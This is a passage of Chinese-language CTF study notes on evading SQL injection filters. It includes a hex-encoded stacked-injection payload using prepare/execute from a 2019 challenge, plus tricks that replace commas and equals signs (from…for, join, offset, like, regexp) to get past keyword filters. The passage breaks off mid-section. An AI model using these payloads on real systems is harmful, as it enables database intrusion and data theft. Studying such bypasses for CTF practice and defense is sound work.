 ##### （2）关键字`select`绕过

* `select`被过滤，可以使用`handler`来代替（详细见下文）

* 双重url编码绕过（适用于`preg_match()`函数）

* 十六进制编码绕过

  例如[强网杯2019]随便注
  
  ```
  1';SeT@a=0x73656c656374202a2066726f6d20603139313938313039333131313435313460;prepare execsql from @a;execute execsql;#
  ```
  
  payload原理是  将查询语句字符串十六进制编码，并用SET方法将字符串赋值给变量a，然后用预处理语句`prepare`从变量a中获取查询语句，在用`execute`语句执行查询语句
  
  * **该payload有局限性，必须是允许多次查询的题目（允许堆叠注入）才能用这种方法绕过过滤**



#### 7.逗号绕过

* `from for `替换

  在使用`substr(),mid(),limit()`等函数时，`,1,1`可以替换成`from 1 for 1 `	

* `join`替换

  在查多显示位时，例如`select 1,2,3 `，可以用`join`替换逗号，payload如下

  `select * from (select 1)a join (select 2)b join (select 3)c `

* `offset`替换

  在使用`limit()`函数时，例如`limit 0,1`可以换成 `limit 1 offset 0`

* `like `模糊匹配

  在盲注的时候，可能使用`substr(),mid() `等函数抓取单个字符，并用`ascii()`函数判断是否正确，可以用`like`模糊匹配代替

  例如

  ```
  select ascii(mid(user(),1,1))=80
  select user() like 'r%'
  ```

  `like`模糊匹配会返回0和1，正确为1，错误为0



#### 8.等号绕过

*  `like`替代

* `rlike`替代

* `regexp`替代

* `in`替代（后面要跟括号）

* `<>`替代（比较大小的时候）

  举例
